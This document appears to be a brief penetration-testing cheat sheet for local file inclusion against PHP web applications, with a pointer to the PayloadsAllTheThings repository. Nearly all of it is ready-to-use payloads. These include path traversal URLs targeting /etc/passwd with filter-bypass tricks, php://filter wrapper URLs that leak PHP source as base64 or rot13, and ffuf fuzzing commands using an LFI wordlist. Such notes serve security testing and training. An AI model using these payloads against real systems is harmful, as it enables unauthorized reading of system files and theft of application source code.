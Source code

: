 **List of payloads**
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File) Inclusion/README.md
**Non-recursive filter bypass**
```Python
http://example.com/read.php?file=..././..././..././..././..././..././etc/passwd
```
**Mangle capitals & operators for filter bypasses**
```Python
http://example.com/read.php?file=..././..././..././..././..././..././eTc/p+AsS+wd
```
**PHP Wrappers**
- Leak php instead of executing it.
```Python
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```
**ffuf**
- Copy request to file via burp
```Python
ffuf -request r -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
```
**Filter by wordcount**
```Python
ffuf -request r -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 19,20
```
